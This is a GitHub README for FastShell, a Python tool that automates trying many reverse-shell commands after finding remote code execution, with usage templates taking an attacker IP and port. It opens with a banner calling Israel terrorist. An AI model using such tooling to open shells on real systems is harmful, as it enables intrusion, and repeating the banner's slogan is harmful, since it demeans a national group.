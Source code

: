 
<h2 align="center">Free Palestine && Terrorist israel</h2>

# FastShell ⚡
![indir (6)](https://github.com/Yusuf-YENICERI/FastShell/assets/38917909/4e32a4ba-e3aa-49ea-afae-70a26e3c8ee4)
Get your revshell in seconds!

## Why to use it?
Fastshell allows you to run many revshell commands with one line of command and it works with your command.

Let's assume that we found a rce in somewhere in an app and we want to get shell. What would we do in that case?
Well i go to a revshell generator online and i try them one by one.
No more that just set your command, ip, port and boom! You are in!

## How to use it?
This program requires 3 arguments, your command, ip and port of your host.

Assume you use the below command to run your exploit:

``
python3 exploit.py id(or any command you want)
``

Then you just need to do it:

``
python3 revshell.py "python3 exploit.py {revshell}", "your ip", "your port"
``

The things is to replace {revshell}, the exact text with the rce command you use and add ip and port.

## Warning
This program somehow breaks my python on Windows and it does not run. So try to use Linux. The problem might be related with the commands in the file. I'm not sure.

## Disclaimer
THIS TOOL IS FOR LEGAL PURPOSES ONLY!
I DO NOT CARRY ANY RESPONSIBILITY OF THIS TOOL'S WRONG USAGE. SO TAKE YOUR OWN RISK.
